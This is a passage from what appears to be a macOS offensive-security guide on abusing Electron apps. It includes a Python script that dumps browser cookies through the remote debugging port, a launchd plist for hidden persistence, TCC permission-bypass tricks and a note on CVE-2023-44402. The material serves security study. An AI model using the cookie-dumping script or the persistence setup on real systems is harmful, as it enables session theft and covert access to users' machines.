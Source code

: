 ```
Using the param **`--remote-debugging-port=9222`** it's possible to steal some information from the Electron App like the **history** (with GET commands) or the **cookies** of the browser (as they are **decrypted** inside the browser and there is a **json endpoint** that will give them).

You can learn how to do that in [[https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e) and [**here**](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f) and use the automatic tool [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut|**here**]] or a simple script like:

```python
import websocket
ws = websocket.WebSocket()
ws.connect("ws://localhost:9222/devtools/page/85976D59050BFEFDBA48204E3D865D00", suppress_origin=True)
ws.send('{\"id\": 1, \"method\": \"Network.getAllCookies\"}')
print(ws.recv()
```
```

### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

```xml
<dict>
    ProgramArguments
    <array>
        /Applications/Slack.app/Contents/MacOS/Slack
        \-\-inspect
    </array>
    Label
    com.hacktricks.hideme
    RunAtLoad
    
</dict>
```
```
## TCC Bypass abusing Older Versions

> [!TIP]
> The TCC daemon from macOS doesn't check the executed version of the application. So if you **cannot inject code in an Electron application** with any of the previous techniques you could download a previous version of the APP and inject code on it as it will still get the TCC privileges (unless Trust Cache prevents it).

## Run non JS Code

The previous techniques will allow you to run **JS code inside the process of the electron application**. However, remember that the **child processes run under the same sandbox profile** as the parent application and **inherit their TCC permissions**.\
Therefore, if you want to abuse entitlements to access the camera or microphone for example, you could just **run another binary from the process**.

## Notable Electron macOS Vulnerabilities (2023-2024)

### CVE-2023-44402 – ASAR integrity bypass

Electron ≤22.3.23 and various 23-27 pre-releases allowed an attacker with write access to the `.app/Contents/Resources` folder to bypass the `embeddedAsarIntegrityValidation` **and** `onlyLoadAppFromAsar` fuses. The bug was a *file-type confusion* in the integrity checker that let a crafted **directory named `app.asar`** be loaded instead of the validated archive, so any JavaScript placed inside that directory was executed when the app started. Even vendors that had followed the hardening guidance and enabled both fuses were therefore still vulnerable on macOS.
```